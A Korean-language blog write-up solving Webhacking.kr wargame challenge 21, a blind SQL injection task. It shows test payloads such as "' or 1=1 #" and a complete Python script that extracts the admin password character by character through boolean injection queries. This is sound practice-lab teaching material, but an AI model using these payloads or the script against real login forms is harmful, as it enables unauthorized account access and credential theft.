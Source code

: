 ```yaml
---
title: "[Web] Webhaking.kr 21번"
date: 2021-09-20T19:55:31+09:00
categories:
- Web
- Webhaking.kr
tags:
- Web
keywords:
- tech
#thumbnailImage: //example.com/image.jpg
---
```


<!--more-->

자 오늘 풀어볼 문제는?  
Webhaking.kr 21번 문제입니다.  

문제는 아래와 같습니다!!  

![Problem](https://github.com/RoomRooms/blog/blob/master/img/Web/Webhacking.kr/21/Problem.PNG?raw=true)

누구나 Blind SQL 문제라는 것을 알 수 있습니다. ( 모르는 게.. 크흠.. )  
일단 Bling SQL을 진행하기 전에 가장 먼저 알아내야 할 것이 있습니다.  
쿼리가 참일 때의 결과와 거짓일 때의 결과입니다!!  
그 전에 이런 거 보면 해보고 싶은 게 하나 있잖아요?  

![admin1](https://github.com/RoomRooms/blog/blob/master/img/Web/Webhacking.kr/21/admin1.PNG?raw=true)

역시! 안됩니다. 근데 login fail? 약간 이게 거짓 같은 느낌이 듭니다.  
다른 값을 없을까요?  
일단 가장 쉽게 id=admin&pw=' or 1=1 # 을 실행하면 아래와 같습니다.  

![wrong1](https://github.com/RoomRooms/blog/blob/master/img/Web/Webhacking.kr/21/wrong1.PNG?raw=true)

아까와는 다른 결과값!!  
아마 wrong password라는 값은 쿼리가 참일 때 반환되는 것 같습니다!!  
좀 더 확신을 갖기 위해 거짓의 경우도 확인해봅시다.  
(?id=admin&pw=' or 1=2 #)  

![wrong2](https://github.com/RoomRooms/blog/blob/master/img/Web/Webhacking.kr/21/wrong2.PNG?raw=true)

역시 login fail은 거짓일 때 나오는 출력값이였습니다!!  
이제 나머지는 코드의 영역입니다!  
코드는 아래와 같습니다.  

```python
import requests
import re

password = ""

leng = 0

url = "https://webhacking.kr/challenge/bonus-1/index.php"

cookie = {'PHPSESSID': ''}

for i in range(1, 100):

    print("%d password length..." % i)

    query = "' or length(pw) = %d and id = 'admin' #" % i

    params = {'id': query, 'pw': 'asdf'}

    res = requests.get(url, params=params, cookies=cookie)
    if "wrong password" in res.text:
        leng = i
        break


for i in range(1, leng+1):

    print("%d password.." % i)

    for j in range(38, 127):
        query = "' or id='admin' and ascii(substring(pw,%d,1))=%d #" % (i, j)

        params = {'id': 'admin', 'pw': query}

        res = requests.get(url, params=params, cookies=cookie)

        if "wrong password" in res.text:
            print(chr(j))
            password = password + chr(j)
        
print("password length : %d, password: %s" % (leng, password))

```

위 코드를 통해서 password의 길이와 값을 알아 낼 수 있었습니다.  
코드는 아래와 같이 실행되는 것을 볼 수 있습니다.  

![code](https://github.com/RoomRooms/blog/blob/master/img/Web/Webhacking.kr/21/code.PNG?raw=true)

이렇게 알아낸 정보로 로그인을 해보면?  

![Flag](https://github.com/RoomRooms/blog/blob/master/img/Web/Webhacking.kr/21/Flag.PNG?raw=true)

위와 같이 풀린 것을 확인할 수 있습니다!!  

저는 해당 [블로그](https://jaeseokim.tistory.com/27)를 엄청 참고했습니다.  
덕분에 풀 수 있었습니다.. 감사합니다..
